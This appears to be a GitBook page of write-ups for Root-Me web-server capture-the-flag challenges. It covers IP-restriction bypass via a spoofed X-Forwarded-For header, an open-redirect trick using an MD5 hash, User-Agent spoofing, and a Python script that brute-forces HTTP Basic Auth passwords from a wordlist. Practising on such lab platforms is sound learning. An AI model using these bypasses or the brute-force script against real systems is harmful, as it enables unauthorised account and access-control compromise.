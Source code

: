 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
cover: ../../.gitbook/assets/web.webp
coverY: 0
---
```


# 🏝️ Web - Server

## Web - Server

### 1.[HTML - Source code](https://www.root-me.org/en/Challenges/Web-Server/HTML-Source-code)

F12 for flag

### 2.[HTTP - IP restriction bypass](https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass)

[`document`](https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c)

![](<../../.gitbook/assets/image (39) (1).png>)

> **Syntax: X-Forwarded-For: \<client>,\<proxy1>,\<proxy2>,\<proxy3>**

Change IP at client to private IP by adding _**an X-Forwarded-For**_ header

![](<../../.gitbook/assets/image (13) (2).png>)

### 3.[HTTP - Open redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect)

![](<../../.gitbook/assets/image (35) (2) (1).png>)

It combines URL and hash md5 of that one, so that we just put other URL and hash of it.

![](<../../.gitbook/assets/image (29) (1).png>)

### 4.HTTP - User-agent

change User-Agent to \`admin\`

![](<../../.gitbook/assets/image (18) (2).png>)

### 5.Weak password

```
import requests
from requests.auth import HTTPBasicAuth
url = "http://challenge01.root-me.org/web-serveur/ch3/"
usr = "admin"
words = open('common_password.txt','r').read().split('\n')
cnt =1
for pwd in words:
	print(pwd,cnt)
	
	res = requests.get(url, auth=HTTPBasicAuth(usr, pwd))
	
	if "401" not in res.text:
		print('Password is ' + pwd)
		break
	cnt +=1
```